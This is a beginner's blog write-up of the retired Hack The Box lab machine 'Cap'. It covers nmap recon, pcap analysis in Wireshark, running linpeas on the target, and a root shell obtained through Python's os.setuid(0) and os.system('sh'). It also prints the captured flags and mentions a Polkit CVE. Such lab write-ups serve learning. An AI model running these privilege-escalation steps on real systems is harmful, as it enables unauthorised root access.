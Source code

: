 ```yaml
---
title: "Cap: setuid, learning my way around HTB"
pubDate: 2025-07-22
description: "An easy box on htb"
categories: ["network", "reconnaissance", "beginner", "nmap", "wireshark", "linpeas"]
---
```


# HTB - Cap
**Status = Retired**

## The First Time's Always Awkward

Look, I'm not going to pretend this was some masterclass in hacking. This was my first rodeo on HTB, and like any good origin story, it started with me stumbling around like a drunk penguin on ice. I had a walkthrough video playing in the background like some kind of cybersecurity ASMR, and yes, I leaned on it like a crutch. But here's the thing; I didn't just copy-paste my way through it. I actually tried to understand what I was doing, which is more than I can say for most of my life decisions.

This is my first attempt at one of these writeups, so bear with me. I'm learning as I go, just like I'm learning this whole "hacking" thing. Think of this as my digital diary entry, but with more explosions and less teenage angst.

---

## Tools of the Trade (Or My Excuse for a Toolbox)

- **nmap** — Because sometimes you need to knock on doors before breaking them down
- **wireshark** — The digital equivalent of eavesdropping on your neighbors' phone calls
  ```bash
  sudo pacman -S wireshark-qt wireshark-cli
  ```
- **ftp** — Because apparently, some people still use this in 2025
- **OpenVas** — The security scanner that makes you feel like you're doing something important
- **PEASS-ng "linpeas"** — The Swiss Army knife of privilege escalation
  ```bash
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  ```
- **view-source:http://** — Because sometimes the best recon is just looking at the source code like a digital archaeologist

---

## The Commands That Got Me There (And Some That Didn't)

```bash
ssh                    # Because apparently, typing commands is still a thing
ftp                    # The digital equivalent of using a rotary phone
ls                     # The most basic command that I still mess up
ls -la                 # When you want to see everything, including the kitchen sink
scp ~/htb/tools/linpeas.sh nathan@10.10.10.245:/tmp  # File transfer like it's 1999
cd /tmp                # Because /tmp is where all the cool kids hang out
chmod +x linpeas.sh    # Making things executable, because magic
./linpeas.sh           # Running the script that does all the heavy lifting
nano                   # The editor for people who can't remember vim commands
cat                    # Reading files like a civilized human being
ls -la /usr/bin/python3.8  # Because Python is everywhere, like glitter
python3                # The language that makes everything possible
import os              # Because sometimes you need to talk to the operating system
whoami                 # The existential question of the digital age
os.setuid(0)           # Becoming root, because why not?
os.system('sh')        # Getting a shell, because that's what we came for
```

---

## The Setup (Or How I Learned to Stop Worrying and Love the VPN)

The box was already logged into Nathan's dashboard on startup, which was either incredibly convenient or suspiciously easy. I'm still not sure which. It's like walking into a house where someone left the keys under the mat and a note saying "Please rob me."

---

## My Greatest Hits (And Misses)

### The Mistakes That Made Me Look Like a Skid
- **sudo attempts for a non-sudo user** — This resulted in "event logged" messages, which is basically the digital equivalent of setting off every alarm in the building
- **Multiple failed write attempts** — I was like a drunk trying to put a key in a lock, except the lock was logging everything I did
- **Skipping questions** — I got stuck on question 4 and just said "screw it" and went straight for the flags. In retrospect, I should have completed everything, but I'm not exactly known for my patience

---

## The Recon Phase (Or How I Learned to Love nmap)

### Open Ports
- **3 ports** — Because apparently, this box was running on a budget
- Using nmap to scan the target "nathan" IP 10.10.10.245 (which was conveniently provided, because HTB is nice like that)

### The PCAP Adventure
Luckily for us, Nathan already had the ability to download files from his dashboard. It's like finding out your target has a "Download" button that says "Click here for free flags." I downloaded the pcap files and then used Wireshark to read and follow the digital breadcrumbs like some kind of cyber detective.

---

## The User Flag (Or How I Found It Twice)

```bash
nathan@cap:/home$ cd nathan
nathan@cap:~$ ls
snap  user.txt
nathan@cap:~$ cat user.txt
cce3b7fa31a62cd458ec2b28cd278480
```

Fun fact: I actually found this flag early on, didn't pay attention, and then had to backtrack like an idiot. It's like finding your keys in your pocket after you've already called a locksmith.

---

## The Root Flag (Because I am root!)

```bash
>>> os.setuid(0)
>>> os.system('whoami')
root
0
>>> ls
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'ls' is not defined
>>> os.system('sh')
# ls
snap  user.txt
# cd /root
# ls
root.txt  snap
# cat root.txt
0f3ac34aa7be9f1d96970a50f545a48c
```

This was the moment where I felt like a real hacker. I mean, I was basically just running a Python script that someone else wrote, but hey, it worked. It's like using a calculator to do math — you still get credit for the answer.

---

## Lessons Learned (Or How I Realized I Know Nothing)

### 1. The Pwnbox Dilemma
Although the pwnbox and web instances are great for allowing all users the ability to practice and learn, I much prefer using my own tools and OS. Like a nice rental car but then driving your own — you know where everything is, and you don't have to worry about someone else's weird settings. I started out using the pwnbox but quickly switched to my own VM using the provided VPN file.

### 2. The Question-Skipping Incident
I skipped several questions and just went essentially to the flags. This was directly because no matter what I tried to identify the pcap ID as, they were all "wrong." Since the primary goal was user and root flags, I stopped answering the other questions at 4 and skipped to 7, 8, 9. In retrospect, I should have completed it all, but I'm not exactly known for my attention span.

### 3. The Noisy Operator
I was very noisy in this exercise, trying several things, adding files without deleting them on completion, and a few other things. I could have, and should have, been much quieter with my attempts. It's like trying to sneak into a house while wearing tap shoes and a cowbell.

### 4. The Alternative Routes Theory
There's a possibility of more than one exploit route. Maybe I'm wrong, and I often am, but the fact that I was able to write to directories makes me assume that I could also find alternative ways to root than the way I did. For example: CVE-2021-3560 which was found using linpeas. Polkit. I also had access to nano, so that may have been something too. I know you only need one, but it's nice to know you have options.

### 5. The Backtracking Revelation
Although I successfully found the flags, I actually found the user flag early on, didn't pay attention, and then had to backtrack. Several other obvious mistakes were made, but I did learn several things. Most importantly, I learned that I have a LOT to learn still.

---

## The Takeaway

This was my first step into a larger world. I'm not pretending to be some cybersecurity prodigy, but I'm also not going to pretend I didn't learn anything. Every mistake was a lesson, every failure was a step forward, and every flag was a small victory.

I'm still learning, still making mistakes, and still figuring out what I'm doing. But that's the beauty of it — nobody starts as an expert. We all start as beginners, stumbling around in the dark, trying to figure out which way is up.


Question loudly so others can learn quietly. Stay curious. Stay loud.

Don't Be A Skid
-Zero

[Buy Me A Coffee @iamnotaskid](https://buymeacoffee.com/iamnotaskid)